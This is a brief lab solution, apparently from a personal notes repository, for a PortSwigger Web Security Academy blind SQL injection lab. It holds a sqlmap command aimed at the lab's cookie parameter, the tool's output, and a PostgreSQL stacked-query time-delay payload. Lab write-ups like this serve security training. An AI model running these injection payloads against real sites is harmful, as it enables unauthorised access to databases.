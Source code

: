 # Lab

https://portswigger.net/web-security/sql-injection/blind/lab-time-delays

## Exploit

`sqlmap -u https://0aa2007a045965b6842b956000a10022.web-security-academy.net/ --cookie="TrackingId=vu7Z0cEV36Rp6LdJ" --level=2`

```
Parameter: TrackingId (Cookie)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: TrackingId=vu7Z0cEV36Rp6LdJ';SELECT PG_SLEEP(5)--
```

```sql
TrackingId=vu7Z0cEV36Rp6LdJ';SELECT PG_SLEEP(5)--
```